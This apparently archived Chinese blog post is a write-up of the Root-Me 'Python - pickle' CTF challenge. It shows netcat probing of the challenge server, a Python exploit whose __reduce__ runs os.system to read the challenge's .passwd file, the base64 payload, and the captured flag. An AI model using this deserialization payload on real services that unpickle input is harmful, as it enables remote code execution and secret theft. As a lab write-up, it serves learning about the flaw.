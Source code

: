 <!--yml
category: 未分类
date: 2022-04-26 14:40:20
-->

# CTF-rootme 题解之Python - pickle_weixin_30652879的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_30652879/article/details/99600347](https://blog.csdn.net/weixin_30652879/article/details/99600347)

LINK:[https://www.root-me.org/en/Challenges/App-Script/Python-pickle](https://www.root-me.org/en/Challenges/App-Script/Python-pickle)

Referrence:[https://github.com/Djazouli/RootMeHelp/blob/06d4ad358f43217c12dc8a36dc41ef9cea787f69/AppScript/Python_pickle.md](https://github.com/Djazouli/RootMeHelp/blob/06d4ad358f43217c12dc8a36dc41ef9cea787f69/AppScript/Python_pickle.md)

　　　　     [https://docs.python.org/3/library/pickle.html?highlight=pickle#module-pickle](https://docs.python.org/3/library/pickle.html?highlight=pickle#module-pickle)

　　　　     [https://github.com/python/cpython/blob/3.7/Lib/pickle.py](https://github.com/python/cpython/blob/3.7/Lib/pickle.py)

Warning

The [`pickle`](#module-pickle "pickle: Convert Python objects to streams of bytes and back.") module is not secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.

官方文档中说过，pickle是个不安全的模块，永远别去反序列化不信任的数据。

**`pickle.``loads`** (*bytes_object*, ***, *fix_imports=True*, *encoding="ASCII"*, *errors="strict"*)

Read a pickled object hierarchy from a [`bytes`](https://docs.python.org/3/library/stdtypes.html#bytes "bytes") object and return the reconstituted object hierarchy specified therein.

The protocol version of the pickle is detected automatically, so no protocol argument is needed. Bytes past the pickled object’s representation are ignored.

Optional keyword arguments are *fix_imports*, *encoding* and *errors*, which are used to control compatibility support for pickle stream generated by Python 2\. If *fix_imports* is true, pickle will try to map the old Python 2 names to the new names used in Python 3\. The *encoding* and *errors* tell pickle how to decode 8-bit string instances pickled by Python 2; these default to ‘ASCII’ and ‘strict’, respectively. The *encoding* can be ‘bytes’ to read these 8-bit string instances as bytes objects. Using `encoding='latin1'` is required for unpickling NumPy arrays and instances of [`datetime`](https://docs.python.org/3/library/datetime.html#datetime.datetime "datetime.datetime"), [`date`](https://docs.python.org/3/library/datetime.html#datetime.date "datetime.date") and [`time`](https://docs.python.org/3/library/datetime.html#datetime.time "datetime.time") pickled by Python 2.

[ BlackArch ~ ]# **nc challenge02.root-me.org 60005**
admin

 <head>
<title>Error response</title>
</head>
<body>
<h1>Error response</h1>。
<p>Error code 400.
<p>Message: Bad request syntax ('admin').
<p>Error code explanation: 400 = Bad request syntax or unsupported method. //请求方法不对
</body>

[ BlackArch ~ ]# **nc challenge02.root-me.org 60005**
GET / HTTP/1.0

HTTP/1.0 404 Not Found
Server: BaseHTTP/0.3 Python/2.7.6
Date: Thu, 28 Mar 2019 03:58:48 GMT
Content-type: text/plain

{"result": "Not allowed you should first AUTH"}    //使用AUTH方法
[ BlackArch ~ ]# **nc challenge02.root-me.org 60005**
AUTH admin HTTP/1.0

HTTP/1.0 404 Not Found
Server: BaseHTTP/0.3 Python/2.7.6
Date: Thu, 28 Mar 2019 03:26:00 GMT
Content-type: text/plain

{"result": "Can't find 'Authenticate' header"}          //http请求头需要包含Authenticate字段。 

[ BlackArch ~ ]# **nc challenge02.root-me.org 60005**
AUTH admin HTTP/1.0
Authenticate:admin

HTTP/1.0 404 Not Found
Server: BaseHTTP/0.3 Python/2.7.6
Date: Thu, 28 Mar 2019 03:26:24 GMT
Content-type: text/plain

**{"result": "Authentication failed = Traceback (most recent call last):\n  File \"/challenge/app-script/ch5/ch5\", line 52, in do_AUTH\n    authcombi = pickle.loads(base64.b64decode(self.headers.getheader('Authenticate')))\n  File \"/usr/lib/python2.7/base64.py\", line 76, in b64decode\n    raise TypeError(msg)\nTypeError: Incorrect padding\n"}** 

上述操作我们得到了关键信息**authcombi = pickle.loads(base64.b64decode(self.headers.getheader('Authenticate')))，将http请求头中的**Authenticate**字段通过** 

**Base64解码后得到的字节对象再通过pickle模块反序列化后得到的结果赋值给authcombi变量。**

**解题思路:构造相对应的HTTP请求头，主要构造**Authenticate这个字段，首先这个字段是一个通过Python的pickle模块序列化后的一个字节对象，并且需要使用base64编码格式。****

****编写python脚本如下：****

```
#!/usr/bin/env python

import os import cPickle import base64 class RunCmd(object): def __reduce__(self): return(os.system,
                (('cat /challenge/app-script/ch5/.passwd >&4'),)) print(base64.b64encode(cPickle.dumps(RunCmd())))
```

执行该脚本得到Payload:

Y3Bvc2l4CnN5c3RlbQpwMQooUydjYXQgL2NoYWxsZW5nZS9hcHAtc2NyaXB0L2NoNS8ucGFzc3dkID4mNCcKcDIKdHAzClJwNAou

构造如下HTTP请求：

```
[ BlackArch ~ ]# nc challenge02.root-me.org 60005 AUTH admin HTTP/1.0 Authenticate:Y3Bvc2l4CnN5c3RlbQpwMQooUydjYXQgL2NoYWxsZW5nZS9hcHAtc2NyaXB0L2NoNS8ucGFzc3dkID4mNCcKcDIKdHAzClJwNAou
//输入这两行后回车

**6kSGEI2bh8bgRfCW    //得到flag**
HTTP/1.0 200 OK
Server: BaseHTTP/0.3 Python/2.7.6 Date: Thu, 28 Mar 2019 04:03:29 GMT
Content-type: text/plain

{"result": "Authentication successful"}
```

# 附录：pickle模块

python的pickle模块实现了python的所有数据序列和反序列化。基本上功能使用和JSON模块没有太大区别，方法也同样是dumps/dump和loads/load。cPickle是pickle模块的C语言编译版本相对速度更快。

与JSON不同的是pickle不是用于多种语言间的数据传输，它仅作为python对象的持久化或者python程序间进行互相传输对象的方法，因此它支持了python所有的数据类型。

pickle反序列化后的对象与原对象是等值的副本对象，类似与deepcopy。